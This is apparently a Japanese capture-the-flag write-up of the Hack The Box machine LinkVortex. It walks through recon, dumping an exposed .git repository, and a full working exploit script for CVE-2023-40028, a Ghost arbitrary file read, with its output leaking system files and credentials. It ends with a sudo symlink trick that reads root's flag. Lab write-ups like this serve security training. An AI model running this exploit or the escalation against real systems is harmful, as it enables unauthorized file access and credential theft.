


# LinkVortex

Linux

# 初期探索

## Nmap
```
┌──(kali㉿kali)-[~/htb/Machines/LinkVortex]
└─$ nmap -sCV -Pn Linkvortex.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-16 12:25 JST
Nmap scan report for Linkvortex.htb (10.10.11.47)
Host is up (0.20s latency).
rDNS record for 10.10.11.47: LinkVortex.htb
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
| http-title: BitByBit Hardware
|_Requested resource was http://linkvortex.htb/
|_http-server-header: Apache
| http-robots.txt: 4 disallowed entries 
|_/ghost/ /p/ /email/ /r/
|_http-generator: Ghost 5.58
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.29 seconds
```

空いているポート

- 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
- 80/tcp open  http    Apache httpd

## サブドメイン探索
```
ffuf -u http://linkvortex.htb/ -w ./fuzzDicts/subdomainDicts/main.txt -H "Host:FUZZ.linkvortex.htb"  -mc 200
```

devが見つかったので名前解決追加しておく
```
echo "10.10.11.47 dev.linkvortex.htb" | sudo tee -a /etc/hosts 
```

## /robots.txt





```
[00:51:44] 404 -    7KB - /galeria/
[00:51:44] 404 -    7KB - /gateway/                                         
[00:51:44] 404 -    7KB - /gen/                                             
[00:51:44] 404 -    7KB - /ganglia/                                         
[00:51:44] 404 -    7KB - /github/                                          
[00:51:44] 404 -    7KB - /git/                                             
[00:51:44] 404 -    7KB - /gl/                                              
[00:51:44] 404 -    7KB - /gitlab/
[00:51:44] 404 -    7KB - /globes_admin/ 
[00:51:26] 301 -  179B  - /assets  ->  /assets/                             
[00:51:26] 404 -    7KB - /article/                                         
[00:51:26] 404 -    7KB - /assets/
```

## GitHack
`.git` ディレクトリが公開されている場合、`GitHack` ツールを使ってリポジトリ全体をダウンロードし、ソースコードや機密情報（パスワード、APIキーなど）を取得できる可能性がある

```
git clone https://github.com/lijiejie/GitHack.git
cd GitHack
```

GitHack実行

```
python GitHack.py -u "http://dev.linkvortex.htb/.git/"
```

結果
```
┌──(kali㉿kali)-[~/htb/Machines/LinkVortex/GitHack]
└─$ ls
dev.linkvortex.htb  GitHack.py  index  lib  README.md
                                                                                                                    
┌──(kali㉿kali)-[~/htb/Machines/LinkVortex/GitHack]
└─$ cd dev.linkvortex.htb              
```

Dockerfileとghostが見つかる

```
┌──(kali㉿kali)-[~/…/Machines/LinkVortex/GitHack/dev.linkvortex.htb]
└─$ ls
Dockerfile.ghost  ghost
                                                                                                                    
┌──(kali㉿kali)-[~/…/Machines/LinkVortex/GitHack/dev.linkvortex.htb]
└─$ cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

ディレクトリが以下のように続いてpassを探す

```
┌──(kali㉿kali)-[~/…/test/regression/api/admin]
└─$ cat authentication.test.js | grep pass
            const password = 'OctopiFociPilfer45';
                        password,
            await agent.loginAs(email, password);
                        password: 'thisissupersafe',
                        password: 'thisissupersafe',
            const password = 'thisissupersafe';
                        password,
            await cleanAgent.loginAs(email, password);
                        password: 'lel123456',
                        password: '12345678910',
                        password: '12345678910',
        it('reset password', async function () {
                password: ownerUser.get('password')
            await agent.put('authentication/password_reset')
                    password_reset: [{
        it('reset password: invalid token', async function () {
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: expired token', async function () {
                password: ownerUser.get('password')
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: unmatched token', async function () {
                password: 'invalid_password'
                .put('authentication/password_reset')
                    password_reset: [{
        it('reset password: generate reset token', async function () {
                .post('authentication/password_reset')
                    password_reset: [{
    describe('Reset all passwords', function () {
        it('reset all passwords returns 204', async function () {
            await agent.post('authentication/global_password_reset')
```

- email: `admin@linkvortex.htb`
- password: `OctopiFociPilfer45`

を使用してログインしてみる





## CVE-2023-40028

>オープンソースのコンテンツ管理システムであるGhostで.59.1より前のバージョンでは、認証されたユーザーがシンボリックリンクであるファイルをアップロードできる
>これを悪用されると、ホストOS上の任意のファイルに対して任意のファイル読み取りが実行される可能性がある


https://github.com/0xyassine/CVE-2023-40028


```
#!/bin/bash

# Exploit Title: Ghost Arbitrary File Read
# Date: 10-03-2024
# Exploit Author: Mohammad Yassine
# Vendor Homepage: https://ghost.org/
# Version: BEFORE [ 5.59.1 ]
# Tested on: [ debian 11 bullseye ghost docker image ]
# CVE : CVE-2023-40028

#THIS EXPLOIT WAS TESTED AGAINST A SELF HOSTED GHOST IMAGE USING DOCKER

#GHOST ENDPOINT
GHOST_URL='http://linkvortex.htb'
GHOST_API="$GHOST_URL/ghost/api/v3/admin/"
API_VERSION='v3.0'

PAYLOAD_PATH="`dirname $0`/exploit"
PAYLOAD_ZIP_NAME=exploit.zip

# Function to print usage
function usage() {
  echo "Usage: $0 -u username -p password"
}

while getopts 'u:p:' flag; do
  case "${flag}" in
    u) USERNAME="${OPTARG}" ;;
    p) PASSWORD="${OPTARG}" ;;
    *) usage
       exit ;;
  esac
done

if [[ -z $USERNAME || -z $PASSWORD ]]; then
  usage
  exit
fi

function generate_exploit()
{
  local FILE_TO_READ=$1
  IMAGE_NAME=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 13; echo)
  mkdir -p $PAYLOAD_PATH/content/images/2024/
  ln -s $FILE_TO_READ $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
  zip -r -y $PAYLOAD_ZIP_NAME $PAYLOAD_PATH/ &>/dev/null
}

function clean()
{
  rm $PAYLOAD_PATH/content/images/2024/$IMAGE_NAME.png
  rm -rf $PAYLOAD_PATH
  rm $PAYLOAD_ZIP_NAME
}

#CREATE COOKIE
curl -c cookie.txt -d username=$USERNAME -d password=$PASSWORD \
   -H "Origin: $GHOST_URL" \
   -H "Accept-Version: v3.0" \
   $GHOST_API/session/ &> /dev/null

if ! cat cookie.txt | grep -q ghost-admin-api-session;then
  echo "[!] INVALID USERNAME OR PASSWORD"
  rm cookie.txt
  exit
fi

function send_exploit()
{
  RES=$(curl -s -b cookie.txt \
  -H "Accept: text/plain, */*; q=0.01" \
  -H "Accept-Language: en-US,en;q=0.5" \
  -H "Accept-Encoding: gzip, deflate, br" \
  -H "X-Ghost-Version: 5.58" \
  -H "App-Pragma: no-cache" \
  -H "X-Requested-With: XMLHttpRequest" \
  -H "Content-Type: multipart/form-data" \
  -X POST \
  -H "Origin: $GHOST_URL" \
  -H "Referer: $GHOST_URL/ghost/" \
  -F "importfile=@`dirname $PAYLOAD_PATH`/$PAYLOAD_ZIP_NAME;type=application/zip" \
  -H "form-data; name=\"importfile\"; filename=\"$PAYLOAD_ZIP_NAME\"" \
  -H "Content-Type: application/zip" \
  -J \
  "$GHOST_URL/ghost/api/v3/admin/db")
  if [ $? -ne 0 ];then
    echo "[!] FAILED TO SEND THE EXPLOIT"
    clean
    exit
  fi
}

echo "WELCOME TO THE CVE-2023-40028 SHELL"
while true; do
  read -p "file> " INPUT
  if [[ $INPUT == "exit" ]]; then
    echo "Bye Bye !"
    break
  fi
  if [[ $INPUT =~ \  ]]; then
    echo "PLEASE ENTER FULL FILE PATH WITHOUT SPACE"
    continue
  fi
  if [ -z $INPUT  ]; then
    echo "VALUE REQUIRED"
    continue
  fi
  generate_exploit $INPUT
  send_exploit
  curl -b cookie.txt -s $GHOST_URL/content/images/2024/$IMAGE_NAME.png
  clean
done

rm cookie.txt
```

## ペイロード
```
┌──(kali㉿kali)-[~/…/LinkVortex/GitHack/dev.linkvortex.htb/CVE-2023-40028]
└─$ ./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file>
```

実行結果

```
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

Dockerfileに書かれていた/var/lib/ghost/config.production.jsonも読んでみる

```
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

ユーザとpassゲット！

- user: `bob@linkvortex.htb`
- pass: `fibber-talented-worth`


# 初期侵入

## SSHログイン
```
┌──(kali㉿kali)-[~/…/Machines/LinkVortex/GitHack/dev.linkvortex.htb]
└─$ ssh bob@linkvortex.htb                                                
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
Load key "/home/kali/.ssh/id_rsa": error in libcrypto
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Feb 16 15:47:49 2025 from 10.10.14.53
bob@linkvortex:~$ whoami
bob
```

## user.txt
```
bob@linkvortex:~$ ls
'GCONV_PATH=.'   PwnKit.sh     file.txt    flag.txt   linpeas.sh   oni        rootfs     test.txt.png
 PwnKit          config.json   file2.txt   hi.txt     lol.txt      root.txt   test.txt   user.txt
bob@linkvortex:~$ cat user.txt
e69*****************************
```
`e69*****************************`

# 権限昇格

```
bob@linkvortex:~$ cat flag.txt
cat: flag.txt: Permission denied
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

/opt/ghost/clean_symlink.sh *.pngを見てみる

```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh *.png
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
test output
```

- このスクリプトは、指定されたファイルがシンボリックリンク (.png 拡張子のリンク) であり、そのリンク先がシステムの重要なファイル（/etc や /root）を指しているかどうかを確認し、その場合はリンクを削除または隔離することを目的としています

- シンボリックリンクのターゲットが /etc または /root に含まれている場合、リンクを削除または隔離しますが、CHECK_CONTENT=true の場合、隔離されたファイルの内容を表示する

```
# シンボリックリンクの作成 最初に、/root/root.txt を指すシンボリックリンクを作成し、そのリンクを hyh.txt という名前で作成します。
bob@linkvortex:~$ ln -s /root/root.txt hyh.txt

#セカンダリリンクの作成 次に、このリンク (hyh.txt) を .png ファイルとして hyh.png という名前でシンボリックリンクを作成します。これで .png 拡張子を持つリンクができました。
bob@linkvortex:~$ ln -s /home/bob/hyh.txt hyh.png

#スクリプトの実行 最後に、/home/bob/hyh.png をスクリプトに渡し、CHECK_CONTENT=true を設定してファイル内容が表示されるようにします。
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
Link found [ /home/bob/hyh.png ] , moving it to quarantine
Content:
0ca*****************************
```

## root.txt
`0ca*****************************`